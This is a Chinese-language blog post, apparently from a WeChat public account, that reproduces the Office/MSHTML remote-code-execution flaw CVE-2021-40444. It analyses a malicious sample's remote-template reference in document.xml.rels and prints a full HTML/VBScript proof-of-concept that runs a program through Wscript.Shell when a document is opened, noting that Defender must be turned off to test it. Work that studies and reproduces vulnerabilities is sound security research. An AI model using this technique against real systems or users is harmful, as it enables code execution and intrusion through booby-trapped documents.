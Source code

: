 #  CVE-2021-40444复现

原创 查鲁特 [ 边界骇客 ](javascript:void\(0\);)

**边界骇客** ![]()

微信号 no__root

功能介绍 科技向善，科技理应向善

____

__

收录于话题

**前言:这几天导出都是这个漏洞的通告，就简单看了下。  
**

 **  
**

 **1.CVE-2021-40444**

这个漏洞严格来说并不能算一个新的漏洞，Windows一些自身的产品如（office，outlook）能调用IE浏览器能执行ACTIVEX也不是啥新闻了，去年的时候我就有发一篇文章关于Outlook的滥用，造成命令执行。

  * 

    
    
    https://www.freebuf.com/articles/network/243747.html

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153729.png)

这边值得注意的一点就是，即使在新人中心禁用了office的ActiveX也是无效，因为最后执行ActiveX的是IE浏览器而非office(你们要抓的是周树人，和我鲁迅有什么关系？)  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153730.png)

  

 **2.样本分析**

一开始没有样本，只有一串样本hash。通过反查hash绕了几层，最终在anyrun下载到样本。

  * 

    
    
    样本md5:d1837399df37757e5ebd04f45746301a

虚拟机打开样本:  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153731.png)

典型远程模板加载的特征，看到触发方式和通报，利用姿势大概就猜到了，后面就暂时不看了。

* * *

  1. 把样本后缀改成zip，解压  

  2. 路径:word→_rels→document.xml.rels

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153732.png)

明显可以从文件中看到引用了mhtml，然后Windows默认浏览器执行ActiveX最后造成代码执行。

  

 **3.复现**

既然是老姿势，直接把配置文件地址，为我们服务器的地址。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153733.png)

html内容改成弹计算器吧:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <html><head><meta http-equiv="Content-Language" content="en-us"><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"><title>Outlook</title><script id=clientEventHandlersVBS language=vbscript><!-- Sub window_onload()     Set cmd = CreateObject("Wscript.Shell")     cmd.Run("calc") End Sub--></script></head><body><h1>CVE-2021-40444</h1> <object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object></body></html>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153734.png)

  

 **写在最后:defender查的紧，需要关闭后测试。**

｡:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ防盗专用｡:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ

 ^_^文章来源：微信公众号（边界骇客） ^_^

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153736.png)

 **  
**  

![]()

查鲁特

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

CVE-2021-40444复现

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

